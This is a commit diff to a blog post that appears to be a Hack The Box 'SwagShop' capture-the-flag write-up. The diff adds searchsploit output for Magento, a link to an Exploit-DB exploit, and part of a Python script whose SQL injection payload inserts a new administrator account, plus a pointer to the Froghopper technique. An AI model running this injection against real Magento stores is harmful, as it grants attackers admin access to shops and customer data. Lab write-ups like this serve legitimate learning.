

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/htb/2019-10-17-swagshop.md, in a window 1280 px wide and 1400 px high, scrolled down 1223 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2019-10-17-swagshop.md

````diff
--- a/_posts/htb/2019-10-17-swagshop.md
+++ b/_posts/htb/2019-10-17-swagshop.md
@@ -42,10 +42,31 @@
 ## Vulnerability
 
 ### Searchsploit
-Found multiple magento vulnerabilities on exploit db
- Tried many but found one that works
+```bash
+root@kali:~# searchsploit magento
+--------------------------------------- ----------------------------------------
+ Exploit Title                         |  Path
+                                       | (/usr/share/exploitdb/)
+--------------------------------------- ----------------------------------------
+Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32808.txt
+Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32809.txt
+Magento 1.2 - 'downloader/index.php' C | exploits/php/webapps/32810.txt
+Magento < 2.0.6 - Arbitrary Unserializ | exploits/php/webapps/39838.php
+Magento CE < 1.9.0.1 - (Authenticated) | exploits/php/webapps/37811.py
+Magento Server MAGMI Plugin - Multiple | exploits/php/webapps/35996.txt
+Magento Server MAGMI Plugin 0.7.17a -  | exploits/php/webapps/35052.txt
+Magento eCommerce - Local File Disclos | exploits/php/webapps/19793.txt
+Magento eCommerce - Remote Code Execut | exploits/xml/webapps/37977.py
+eBay Magento 1.9.2.1 - PHP FPM XML eXt | exploits/php/webapps/38573.txt
+eBay Magento CE 1.9.2.1 - Unrestricted | exploits/php/webapps/38651.txt
+--------------------------------------- ----------------------------------------
+Shellcodes: No Result
+```
+I had to try most of these to find the right one. The issue is a time based `sql injection`
+[Exploit](https://www.exploit-db.com/exploits/37977)
 
-[Link](https://www.exploit-db.com/exploits/37977)
+## Exploitation
+I modified the python script to correct the url and added a user named `joe123` with password `forme`
 
 ```python
 import requests
@@ -66,9 +87,11 @@
 SET @SALT = 'rp';
 SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
 SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
-INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
+INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,
+`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
 ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
-INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
+INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES
+(1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
 """
 
 
@@ -89,9 +112,7 @@
 
  ```
 
- So i added a user joe123
- lets login
- after browsing around found nothing useful
+## Usershell
  searched and found magento froghpper vuln [Linl](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
 
  1. change developer settings
````
